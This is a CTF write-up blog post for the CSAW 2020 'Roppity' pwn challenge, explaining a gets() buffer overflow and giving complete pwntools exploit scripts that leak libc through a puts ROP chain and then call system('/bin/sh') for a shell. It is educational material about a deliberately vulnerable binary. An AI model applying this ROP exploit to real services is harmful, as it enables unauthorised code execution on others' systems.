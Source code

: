 ```yaml
---
layout: post
title: "CSAW Roppity"
date: 2020-09-15 09:00:12
categories: blog
---
```


Writeup for CSAW roppity Challenge

<!--more-->

## Roppity (Pwn 50 pts)

### Challenge

> We given a binary file `rop` and libc file `libc-2` .
> The title of challenge suggests it is a ROP(Return-Oriented Programming) challenge

Analysing File:

```
rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d177aa372f308c07c8daaddec53df7c5aafd630, not stripped
```

Checksec:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Decompile with Hopper.

```C
int main() {
    init();
    puts("Hello");
    gets(&var_20);
    return 0x0;
}
```

The main function prints the hello then takes our input using gets and exits

So Basic Idea of Exploitation

Using puts_got address as argument to puts_plt so that we can leak the puts address,Then get back to main so we can exploit the overflow again.

**Leaking Libc_base:**

```python
from pwn import *
buf = 40*'A'
elf = ELF('./rop')
p = remote('pwn.chal.csaw.io',5016)
libc = ELF('libc-2.27.so')
context.clear(arch='amd64')
rop = ROP('rop')
puts_plt = elf.plt['puts']
main = elf.symbols['main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]
puts_got = elf.got['puts']
payload1 = buf #Overwrite RIP
payload1 += p64(pop_rdi) #Sets the address of gadget so next address saves into the RDI registry
payload1 += p64(puts_got) #puts_got to save in RDI (to argument for the following function)
payload1 += p64(puts_plt) #calling puts_plt ,so puts will read the content inside puts_got and will print it out.
payload1 += p64(main) #to get back to main function
p.clean()
p.sendline(payload1)
recieved = p.recvline().strip()
puts_leak = u64(recieved.ljust(8, "\x00"))
libc.address = puts_leak - libc.symbols['puts']
log.info("Leaked libc address",hex(libc.address))
```

We got the Libc_base, the thing is to get shell .

Finding `system` function address and `/bin/sh` string address

```python
binsh = next(libc.search("/bin/sh"))
system = libc.sym["system"]
```

We have everything we need to get shell

## The Final Script to get Shell

```python
from pwn import *
buf = 40*'A'
elf = ELF('./rop')
p = remote('pwn.chal.csaw.io',5016)
libc = ELF('libc-2.27.so')
context.clear(arch='amd64')
rop = ROP('rop')
puts_plt = elf.plt['puts']
main = elf.symbols['main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]
puts_got = elf.got['puts']
paylaod1 = buf
paylaod1 += p64(pop_rdi)
paylaod1 += p64(puts_got)
paylaod1 += p64(puts_plt)
paylaod1 += p64(main)
p.clean()
p.sendline(paylaod1)
recieved = p.recvline().strip()
puts_leak = u64(recieved.ljust(8, "\x00"))
libc.address = puts_leak - libc.symbols['puts']
log.info("Leaked libc address",hex(libc.address))
binsh = next(libc.search("/bin/sh"))
system = libc.sym["system"]
exit = libc.sym["exit"]
payload2 = buf  #buffer to overwrite RIP
payload2 += p64(ret) # to align Stack
payload2 += p64(pop_rdi) # to put the next address into RDI
payload2 += p64(binsh)  #bin/sh address
payload2 += p64(system) # call to system; system('bin/sh')
payload2 += p64(exit) # fake functioin address
p.clean()
p.sendline(payload2)
p.interactive()
```
